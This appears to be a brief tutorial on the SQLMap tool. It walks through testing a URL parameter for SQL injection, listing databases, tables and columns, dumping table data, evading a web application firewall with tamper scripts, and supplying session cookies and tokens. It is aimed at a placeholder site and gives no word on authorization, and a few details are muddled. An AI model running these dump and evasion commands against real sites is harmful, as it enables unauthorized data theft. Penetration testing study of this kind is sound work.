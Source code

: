 

# 1. Installation of SQLMap
Before using SQLMap, you need to have it installed on your system. SQLMap works on Linux, macOS, and Windows.

* Linux:

  * sudo apt-get update
  * sudo apt-get install sqlmap

* Then, extract the archive and run SQLMap from the command line.

# 2. Identify the Target URL

To test for SQL injection, you'll need a URL with parameters that are potentially vulnerable. Look for URLs that include parameters like:


* http://example.com/page?id=1

In this case, id=1 is a parameter that could be vulnerable.

# 3. Basic SQLMap Usage
* The most basic SQLMap command is:

  * sqlmap -u "http://example.com/page?id=1"

This will scan the target URL for potential SQL injection vulnerabilities.

# 4. Retrieve Database Information
If SQLMap finds a vulnerability, you can start extracting information from the database.

* Find Database Name:

  * sqlmap -u "http://example.com/page?id=1" --dbs

* Find Tables: After identifying the database name, list the tables:

  * sqlmap -u "http://example.com/page?id=1" -D database_name --tables
 
 * Find Columns: Once you've identified a table, list the columns:

  * sqlmap -u "http://example.com/page?id=1" -D database_name -T table_name --columns

# 5. Dump Data
* To retrieve the actual data stored in the tables:

  * sqlmap -u "http://example.com/page?id=1" -D database_name -T table_name --dump

# 6. Bypass WAF (Web Application Firewall)
* If the website has a Web Application Firewall (WAF), you can try evading it with tamper scripts or payload encoding:

  * sqlmap -u "http://example.com/page?id=1" --tamper=base64encode

# 7. Authentication and Cookies
* If the website requires login or authentication, you can pass session cookies to SQLMap:


  * sqlmap -u "http://example.com/page?id=1" --cookie="PHPSESSID=abcdefgh123456"
* You can also include authentication headers:

  * sqlmap -u "http://example.com/page?id=1" --headers="Authorization: Bearer your_token_here"

# 8. Automated Tests
* For a fully automated scan, SQLMap offers an --batch option to automate all decisions:

  * sqlmap -u "http://example.com/page?id=1" --batch

# 9. Advanced Options
* Fingerprint the Database: Identify the database system and version:

  * sqlmap -u "http://example.com/page?id=1" --fingerprint
* Search for Specific Data: Search for specific text or patterns in the database:

  * sqlmap -u "http://example.com/page?id=1" -D database_name --search -T table_name --search -C column_name --string "search_text"

# 10. Logging and Output
* You can save the output to a file for future reference:

  * sqlmap -u "http://example.com/page?id=1" -o --output-dir=./sqlmap-output/
